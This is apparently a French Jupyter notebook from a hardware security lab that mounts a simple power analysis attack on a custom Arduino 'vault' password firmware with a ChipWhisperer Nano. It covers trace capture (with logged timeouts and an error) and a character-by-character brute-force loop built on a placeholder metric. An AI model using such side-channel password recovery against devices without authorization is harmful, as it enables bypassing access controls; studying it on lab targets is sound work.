# Attaque SPA sur le vault Arduino (ATmega328P + CW-Nano)

Contexte : firmware custom en texte brut, 9600 bauds, canal `comms` (SoftwareSerial) sur pins D10 (RX) / D11 (TX) de l'ATmega328P.

Déroulé :
1. Connexion au CW-Nano
2. Test de communication brute (sans protocole SimpleSerial structuré)
3. Capture d'une trace unique
4. Comparaison de deux traces (calibration visuelle)
5. Squelette de brute-force SPA position par position

## 1. Connexion au CW-Nano

In [1]:
import chipwhisperer as cw
import numpy as np
import matplotlib.pyplot as plt
import time

SCOPETYPE = 'OPENADC'
PLATFORM  = 'CWNANO'

scope = cw.scope()
scope.default_setup()
print(scope)

ChipWhisperer Nano Device
fw_version = 
    major = 0
    minor = 66
    debug = 0
io = 
    tio1         = None
    tio2         = None
    tio3         = None
    tio4         = high_z
    pdid         = True
    pdic         = False
    nrst         = True
    clkout       = 7500000.0
    cdc_settings = bytearray(b'\x01\x00\x00\x00')
adc = 
    clk_src  = int
    clk_freq = 7500000.0
    samples  = 5000
glitch = 
    repeat     = 0
    ext_offset = 0
errors = 
    sam_errors      = False
    sam_led_setting = Default



## 2. Communication avec le target

⚠️ Le firmware **ne parle pas le protocole SimpleSerial2** (pas de trame structurée avec checksum). Il lit juste une ligne de texte brut terminée par `\n`, à 9600 bauds.

On essaie d'abord `cw.targets.SimpleSerial` en mode brut. Si ça ne fonctionne pas (pas de réponse cohérente), il faudra passer par l'interface série bas niveau du CW-Nano — dans ce cas, décommente le bloc `scope._getNAEUSB()` / COM port direct plus bas et dis-le moi pour qu'on ajuste.

In [ ]:
target = cw.target(scope, cw.targets.SimpleSerial)
target.flush()
time.sleep(0.2)

target.baud = 9600
print("Baud apres modif:", target.baud)

# Essai 1 : écriture brute
target.write("aaaaaaaa\n")
time.sleep(0.3)
resp = target.read()
print("Reponse brute:", repr(resp))

Baud actuel: 38400
Baud apres modif: 9600
Reponse brute: ''


In [ ]:
# Si la cellule precedente ne renvoie rien de coherent (pas de
# "Enter password" / "ACCESS DENIED"), essaie l'acces serie direct
# via le port COM virtuel du CW-Nano (si le firmware du capture
# device expose un CDC passthrough). Decommente et adapte le port:

# import serial
# PORT_CW = "COMx"  # a identifier dans le gestionnaire de peripheriques
# ser_cw = serial.Serial(PORT_CW, 9600, timeout=2)
# ser_cw.write(b"aaaaaaaa\n")
# time.sleep(0.3)
# print(ser_cw.read(200))

## 3. Capture d'une trace unique

Une fois la communication confirmee (cellule 2 renvoie bien une reponse coherente), on capture une trace de consommation pour un mot de passe donne.

In [12]:
# La capture attend un front sur l'entree de declenchement du scope.
# Relier la broche de trigger du firmware a TIO4 du CW-Nano avant de continuer.
scope.trigger.triggers = "tio4"

# Le firmware utilise une ligne UART brute, pas SimpleSerial2.
target = cw.target(scope, cw.targets.SimpleSerial)
target.baud = 9600
target.ser.timeout = 2

def capture_trace(password):
    target.ser.reset_input_buffer()
    scope.arm()
    target.ser.write((password + "\n").encode("ascii"))
    target.ser.flush()
    timed_out = scope.capture()
    if timed_out:
        raise TimeoutError(
            "Aucun trigger recu. Verifiez le cable TIO4 et le trigger du firmware."
        )
    response = target.ser.read(target.ser.in_waiting or 1)
    trace = scope.get_last_trace()
    return trace, response


trace, resp = capture_trace("coucou")
print("Reponse:", repr(resp))

(ChipWhisperer Scope WARNING|File cwnano.py:711) Timeout in cwnano capture()


(ChipWhisperer Scope WARNING|File cwnano.py:711) Timeout in cwnano capture()


Timeout pendant la capture !
Reponse: None


ValueError: x, y, and format string must not be None



In [13]:
trace, resp = capture_trace("aaaaaaaa")
print("Reponse:", repr(resp))

plt.figure(figsize=(12,4))
plt.plot(trace)
plt.title("Trace brute - entree completement fausse")
plt.xlabel("Echantillon")
plt.ylabel("Amplitude")
plt.show()

## 4. Comparaison de deux traces (calibration visuelle)

Avant de coder une metrique de detection, regarde a l'oeil si deux entrees differentes (un premier caractere correct vs faux) donnent des traces visiblement differentes.

In [ ]:
# A ajuster: remplace 'X' par un caractere que tu sais faux,
# et teste aussi un caractere que tu soupconnes correct si tu veux calibrer
trace1, _ = capture_trace("aaaaaaaa")
trace2, _ = capture_trace("zaaaaaaa")

plt.figure(figsize=(12,4))
plt.plot(trace1, label="aaaaaaaa")
plt.plot(trace2, label="zaaaaaaa", alpha=0.7)
plt.legend()
plt.title("Comparaison de deux traces")
plt.show()

## 5. Squelette de brute-force SPA

A caliber une fois qu'une metrique de distinction (longueur de trace, position d'un pic, etc.) a ete identifiee visuellement a l'etape 4. Remplace `trace_length_metric` par la metrique qui correspond reellement a ce que tu observes.

In [ ]:
import string

charset = string.ascii_letters + string.digits + string.punctuation
LENGTH = 8
FILLER = "a"

def trace_length_metric(trace):
    # PLACEHOLDER - a ajuster selon ce que tu observes a l'etape 4
    threshold = np.mean(trace)
    above = np.where(trace > threshold)[0]
    return above[-1] if len(above) else 0

def average_metric(candidate, n=5):
    scores = []
    for _ in range(n):
        trace, _ = capture_trace(candidate)
        if trace is not None:
            scores.append(trace_length_metric(trace))
    return np.mean(scores) if scores else -1

known = ""
for position in range(LENGTH):
    best_char, best_score = None, -1
    for c in charset:
        candidate = known + c + FILLER * (LENGTH - len(known) - 1)
        score = average_metric(candidate)
        if score > best_score:
            best_score, best_char = score, c
    known += best_char
    print(f"Position {position}: '{known}' (score={best_score:.2f})")

print("\nMot de passe deduit:", known)

## 6. Verification finale

In [ ]:
_, resp = capture_trace(known)
print("Reponse finale:", repr(resp))